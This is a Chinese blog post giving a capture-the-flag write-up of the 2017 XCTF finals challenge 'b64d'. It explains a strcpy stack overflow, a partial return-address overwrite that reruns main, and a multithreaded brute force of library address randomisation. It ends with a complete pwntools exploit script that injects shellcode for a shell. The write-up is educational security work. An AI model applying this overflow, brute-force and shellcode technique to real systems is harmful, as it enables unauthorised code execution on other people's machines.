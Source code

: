 ```yaml
---
layout:     post
title:      "2017XCTF决赛题 -- b64d"
subtitle:   "从一道看似普通的栈溢出开始的探索"
date:       2017-10-01 22:46:25
author:     "Carter"
header-img: "img/post-bg-rwd.jpg"
tags:
    - Fuzz
    - pwn
---
```


​     前段时间有幸代表战队参加了2017年XCTF总决赛，和国内国外的大佬们有了现场过招的机会。该次决赛赛制也很有意思，不再采用两天都是攻防赛的形式，我是引入了目前IT圈内的大明星 -- 人工智能。总决赛总共两天，第一天是各个战队使用自己开发的AI工具，对主办方放出的题目进行自动化的fuzz，只有当fuzz出该题目的崩溃后，人类选手才能得到该题的二进制程序文件，进行分析和利用的开发；第二天则是过去的老套路，放出了4道pwn题（此次没有web题，心疼web选手），进行现场的攻防竞赛。

​     此篇博文，不是挑选比赛中最难的题目进行说明，而是拿一道我觉得最有意思的题目，依此作为研究的起点，进行一些探索。这道题是我们的AI工具在第一天比赛开始后几分钟就fuzz出崩溃的一道题，名称叫做b64d，很明显的一个栈溢出漏洞，本来以为会轻松利用，结果后续研究过程却很有意思。下面由我细细道来。

###  一. 漏洞分析

   漏洞存在于main函数内，允许读入2048个base64编码后的字符串，将解码后的字符串v5通过strcpy函数复制到栈上，导致了栈溢出。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/1.png)

​      程序是amd64结构，保护措施只开了堆栈地址随机化
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/2.png)

### 二. 难点探寻

​     这个简单的栈溢出题目为什么有趣呢？原因在于当我们覆盖其返回地址为shellcode地址时，strcpy遇到'\x00'发生了截断，因此不能够完全覆盖返回地址到bss段存放shellcode的地址。其返回地址覆盖前是一个so库中的地址，因此一旦修改错误程序就会跳到未知的地方，从而崩溃。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/3.png)

​      因此，我们只能在原本的一个so库地址上进行小范围修改。而so库的基址每次都是随机的，我们把返回地址覆盖到哪里？这是亟待解决的问题

### 三. 解决方法
1. 我们从上图中可以看到，在栈顶往下4个地址处，有一个main函数开始的地址。试想：如果我们把返回地址修改成这个地址，再让main函数再运行一次，到ret时的返回地址会不会发生变化呢？（抱着''死马当作活马医的心态"试试看）于是在gdb中手动修改了ret为main函数开始的地址，再一次回到ret处。此时可喜的看到，ret地址已经是0x0了，此时我们就可以随意覆盖返回地址到任意地方了
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/4.png)

2. 那么该如何完成第一步我们的假设？很容易想到在第一次到达ret时，需要将程序的控制流返回到一个'pop|pop|pop|ret'上，执行完这串gadget后，程序就刚好可以返回到栈顶往下第4个地址 -- main函数起始处。

3. 要在so库中，找到一个'pppr'地址并不难，需要我们斟酌的是：
 - 选取哪个so库中哪个'pppr'序列？

 - 栈溢出时，覆盖ret本来的地址时，覆盖几个字节？

 - 并且同时需要考虑到：strcpy在拷贝时，会在末尾自动添加一个字节的'\x00'

4. 先来通过实践，看看在开启地址随机化的情况下，so库的地址范围有什么变化：
  0x00007f739fea0000 --  0x00007f73a0060000
  0x00007f938edf9000 --  0x00007f938efb9000
  可以看出，每一次so库的基址，后面6个字节都是随机的；在同一次运行过程中，不考虑有进位的情况下，so库地址后3个字节是变化的，前面的字节是相同的。这将作为我们研究的理论基础。

5. 在第一次覆盖ret时，此时该地址中存放的是  __libc_start_main+240 这一个地址，在我本机的so库计算偏移为：0x20830.  设想一下以下情况的合理性：在0x20830附近（因为要防止差得太多会导致进位的问题，因此在附近找最保险）寻找gadget，我们通过ROPgadget找到了一个0x202e3的gadget满足我的条件，我将ret地址的后两个字节通过栈溢出覆盖为‘\x02\xe3’，由于strcpy的原因，因此原来的ret地址会被覆盖为‘0x00007fxxxxxx0002e3’
   接着我们逆向思考，当so库的基址是满足什么条件时，其0x202e3偏移的地址会满足‘0x00007fxxxxxx0002e3’。不难得出结论，即：so库基址的后6位是0xfe0000。从第4步的实验中可以轻松得到，此种概率为 1/4096

6. 如果第5步成功的命中，那么接下来就好办了：再一次运行main函数，利用栈溢出覆盖ret为bss段存放shellcode的地址即可。

### 四. 增加爆破效率
   由于命中的概率为 1/4096，是一个很小的概率，因此如何增加爆破效率是我们要解决的问题。在此我做了以下两点工作：
 - 同时开启了40个线程，用并发加快命中概率
 - 每次运行时，先读取 '/proc/pid/maps' 文件，检查so库加载基址是否为 0xfe0000，如果不是则退出，缩短了单个程序运行时间
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/5.png)
    最终跑出来的时间还是和人品有关系，但在40个线程的情况下，最多用时10分钟也都能跑出来了。

### 五. 利用代码
```python
from pwn import *
import base64
import time
import datetime
import threading

flag=0

def monitor(pid):
	f = open('/proc/{}/maps'.format(pid))
	data = f.read().split('\n')
	f.close()
	for item in data:
		if '/lib/x86_64-linux-gnu/libc-2.23.so' in item:
			print item[0:item.find('-')]
			if item[6:12]=='fe0000':
				return True
			return False

def pwn():
	global flag
	#context.log_level = 'debug'
	while 1:
		if flag:
			exit(0)

		io = remote('127.0.0.1',2333)
		try:
			pid = pidof('b64d')[0]
			print 'pid = {}'.format(pid)
			if monitor(pid):
				print 'Find it'
				flag = 1
				#gdb.attach(pid,open('debug'))

			padding = 'A'*56
			shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')


			payload1 = padding + '\xe3\x02'
			payload1 = base64.b64encode(payload1)
			io.sendline(payload1)
			io.recv(1024)

			#time.sleep(1)

			shellcode_addr = 0x602119
			payload2 =  base64.b64encode('a'*56 + p64(shellcode_addr)) + '\x00' + shellcode
			io.sendline(payload2)
			io.recv(1024)
	
			io.interactive()
			# 	break
		except KeyboardInterrupt:
			io.close()
			break
		except:
			io.close()
			pass
		

if __name__=='__main__':
	thread = []
	starttime = datetime.datetime.now()


	for i in range(40):
		t = threading.Thread(target=pwn,args=())
		thread.append(t)
		t.start()

	for i in thread:
		i.join()

	endtime = datetime.datetime.now()
	print (endtime - starttime).seconds
```